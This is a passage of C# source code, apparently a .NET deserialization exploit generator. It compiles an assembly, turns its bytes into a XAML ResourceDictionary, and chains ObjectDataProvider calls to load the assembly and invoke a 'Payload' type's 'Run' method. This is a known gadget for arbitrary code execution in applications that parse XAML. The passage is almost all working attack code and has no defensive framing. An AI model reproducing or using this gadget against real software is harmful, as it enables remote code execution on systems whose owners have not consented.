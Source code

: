 ```csharp
            {
                string text = "Compile error: ";
                foreach (CompilerError compilerError in compilerResults.Errors)
                {
                    text = text + "\n" + compilerError.ToString();
                }

                throw new Exception(text);
            }

            Assembly assembly = compilerResults.CompiledAssembly;

            var pi = assembly.GetType().GetMethod("GetRawBytes", BindingFlags.Instance | BindingFlags.NonPublic);
            byte[] assemblyBytes = (byte[])pi.Invoke(assembly, null);

            return assemblyBytes;
        }

        static string AssemblyLoad(byte[] assemblyBytes)
        {
            StringBuilder assemblyXml = new StringBuilder();

            foreach (var b in assemblyBytes)
            {
                assemblyXml.AppendLine(@"<x:Byte>" + b.ToString() + "</x:Byte>");
            }

            var xaml = @"<ResourceDictionary
xmlns=""http://schemas.microsoft.com/winfx/2006/xaml/presentation""
xmlns:x=""http://schemas.microsoft.com/winfx/2006/xaml""
xmlns:s=""clr-namespace:System;assembly=mscorlib""
xmlns:r=""clr-namespace:System.Reflection;assembly=mscorlib"">

<x:Array x:Key=""data"" Type=""{x:Type x:Byte}"">" + assemblyXml + @"</x:Array>

<ObjectDataProvider x:Key=""assembly""  ObjectType=""{x:Type r:Assembly}"" MethodName=""Load"">
    <ObjectDataProvider.MethodParameters>
        <StaticResource ResourceKey=""data""></StaticResource>
    </ObjectDataProvider.MethodParameters>
</ObjectDataProvider>

<ObjectDataProvider x:Key=""type"" ObjectInstance=""{StaticResource assembly}"" MethodName=""GetType"">
    <ObjectDataProvider.MethodParameters>
        <s:String>Payload</s:String>
    </ObjectDataProvider.MethodParameters>
</ObjectDataProvider>

<ObjectDataProvider x:Key=""method"" ObjectInstance=""{StaticResource type}"" MethodName=""GetMethod"">
    <ObjectDataProvider.MethodParameters>
        <s:String>Run</s:String>
        <r:BindingFlags>24</r:BindingFlags>
    </ObjectDataProvider.MethodParameters>
</ObjectDataProvider>

<ObjectDataProvider x:Key=""invoke"" ObjectInstance=""{StaticResource method}"" MethodName=""Invoke"">
    <ObjectDataProvider.MethodParameters>
        <x:Null></x:Null>
        <x:Array Type=""{x:Type s:Object}""></x:Array>
    </ObjectDataProvider.MethodParameters>
```